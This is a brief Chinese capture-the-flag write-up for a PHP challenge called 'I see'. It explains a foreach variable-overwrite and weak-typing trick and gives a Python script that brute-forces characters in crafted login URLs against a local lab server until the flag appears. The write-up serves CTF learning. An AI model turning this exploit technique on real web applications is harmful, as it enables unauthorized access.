

# I see

## **[原理]**
在CTF中碰到foreach一般都是变量覆盖，前面条件都比较好过，自己本地开一个环境慢慢调试，运用php弱类型就能出来。
到了最后那一块正则匹配那个位置，是这题的难点。其实解题思路还是在变量覆盖那一块，先声明一个config变量，后面config.php进行赋值时候，并没有key，所以只会赋值后面value的第一个值，只要将1-255的字符跑一遍就可以出来。

## **[步骤]**
PY吧
```
import requests

s= requests.Session()
for i in range(1,255):
	a = chr(i)
	#print(a)
	url = "http://localhost:32769/index.php?action=login&file=config.php&tmp=aaa&_FILES=1&config=1&user[password]="+ a +"&user[user]=" + a
	#print(url)
	s.get(url)
	response = s.get((url.replace('login','upload'))).text
	if 'flag' in response:
		print(response)

```



## **[工具]**
python